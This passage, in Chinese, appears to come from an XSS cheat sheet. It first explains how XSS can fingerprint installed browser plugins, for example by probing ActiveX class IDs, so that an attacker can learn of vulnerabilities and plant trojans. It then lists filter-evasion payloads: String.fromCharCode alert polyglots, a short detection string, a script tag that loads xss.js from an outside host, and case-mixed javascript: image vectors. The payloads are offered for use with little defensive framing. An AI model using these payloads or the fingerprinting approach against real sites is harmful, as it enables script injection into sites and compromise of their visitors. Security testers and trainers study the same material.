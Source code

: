 浏览器安装的组件、扩展、插件都可以使用xss扫描出来。由此可以知道相关漏洞，植入木马。

- 在IE中可以判断ActiveX空间的classid是否存在，推测用户是否安装了某软件。

```js
try{
    var obj = new ActiveXObject('XunLeiBHO.ThunderIEHelper');
}catch(e){

}
```

- `<script>alert(navigator.plugins[0]);</script>`


## 绕过

下面是一些简单的测试用例。

注入下面代码，在大多数没有特殊xss向量要求而易遭受脚本攻击的地方将会弹出单词“xss”。使用url编码器去编码你的整个代码。

### 注入轻量的 “<任意字符>” 标签

然后判断输出点是否受到干扰就可以判断是否xss漏洞了。

```javascript
';alert(String.fromCharCode(88,83,83))//';
alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```
### 如果没有充足的输入空间
下面这段代码是一个好的简洁的xss注入检测代码。在注入这段代码后，查看页面源代码寻找是否存在看起来像 `<XSS verses <XSS`这样的输出。

`'';!--"<XSS>=&{()}`

### 无过滤绕过
这是一个常规的xss注入代码，虽然通常它会被防御，但是我们建议首先去尝试它。

`<SCRIPT SRC=http://www.eee.eee/xss.js></SCRIPT>`
### 通过javascript指令实现的图片xss

图片xss依靠javascript指令实现。（IE7.0不支持javascript指令在图片上下文中，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理。）

`<IMG SRC="javascript:alert('XSS');">`
### 无引号无分号

`<IMG SRC=javascript:alert('XSS')>`
### 不区分大小写的xss攻击向量

`<IMG SRC=JaVaScRiPt:alert('XSS')>`
